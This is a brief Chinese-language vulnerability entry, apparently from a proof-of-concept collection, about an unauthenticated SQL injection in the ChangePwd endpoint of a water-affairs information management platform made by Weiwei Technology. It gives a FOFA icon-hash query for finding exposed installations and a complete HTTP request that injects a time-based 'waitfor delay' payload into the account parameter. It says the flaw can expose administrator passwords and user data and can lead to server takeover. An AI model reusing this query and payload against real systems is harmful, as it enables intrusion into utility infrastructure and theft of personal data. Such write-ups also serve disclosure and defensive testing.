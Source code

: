 ## 潍微科技-水务信息管理平台ChangePwd接口存在SQL注入漏洞

潍微科技-水务信息管理平台 ChangePwd 接口存在SQL注入漏洞，未经身份验证的恶意攻击者利用 SQL 注入漏洞获取数据库中的信息（例如管理员后台密码、站点用户个人信息）之外，攻击者甚至可以在高权限下向服务器写入命令，进一步获取服务器系统权限。

## fofa
```
icon_hash="-491165370"
```


## poc
```
GET /Account/ChangePwd?oldpwd=123456&newpwd=123456&conpwd=123456&account=1%27;waitfor%20delay%20%270:0:5%27--+ HTTP/1.1
Host: your-ip
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:123.0) Gecko/20100101 Firefox/123.0
Accept-Encoding: gzip, deflate, br
Connection: close
```

![a6fd2eeb352ff857001c3613ec992f16](../../images/db189bee-4a6a-4159-a39f-c07c138e0c59.png)
